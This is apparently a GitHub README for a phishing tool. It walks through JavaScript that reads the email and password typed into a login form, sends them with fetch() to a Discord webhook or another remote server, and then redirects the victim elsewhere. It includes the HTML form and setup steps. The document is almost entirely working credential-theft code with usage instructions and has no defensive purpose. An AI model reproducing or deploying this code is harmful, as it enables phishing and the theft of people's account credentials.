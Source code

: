 - After that, a **message** variable is created by concatenating the **email** and **password** values. This message will be sent to the Discord Webhook.
```JavaScript
    // Create message content
    const message = "Email: " + email + " \n " + "Password: " + password;
```

- The **fetch()** method is used to send an HTTP POST request to the Discord Webhook URL. The request body is a JSON object that contains the **message** content. If the response status is **ok**, the user is redirected to the specified URL, which is set in the **window.location.href** property. Otherwise, a generic error is thrown.
```JavaScript
    // Send POST request to Discord webhook URL
    const response = await fetch(discord_webhook_url, {
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({ content: message })
    });
    if (response.ok) {
        // DEFINE the redirect link preferred
        window.location.href = "https://www.example.com";
    } else {
        // Otherwise, throw a generic error
        throw new Error('Generic error!');
```

- If an error occurs during the execution of the **fetch()** method, it will be caught by the **catch()** block and logged to the console using the **console.error()** method.
```JavaScript
    try{
        // ...
    } catch (error) {
        // Log any errors to the console
        console.error(error);
    }
```

- To use this code, you need to replace the **discord_webhook_url** constant with the actual Discord Webhook URL or the URL of any other remote server that you want to send the message to. You also need to ensure that the **id** attributes of the email and password input fields in the HTML form match the values used in the **getElementById()** method calls. Finally, you need to call the **send_login()** function when the user submits the form.
```HTML
    <form onsubmit="send_login(); return false;" method="post">
        <div class="form-group">
            <label for="email">Email:</label>
            <input type="email" class="form-control" id="email" placeholder="Insert your email">
        </div>
        <div class="form-group">
            <label for="password">Password:</label>
            <input type="password" class="form-control" id="password" placeholder="Insert your password">
        </div>
        <button type="submit" class="btn btn-primary">Login</button>
    </form>
```
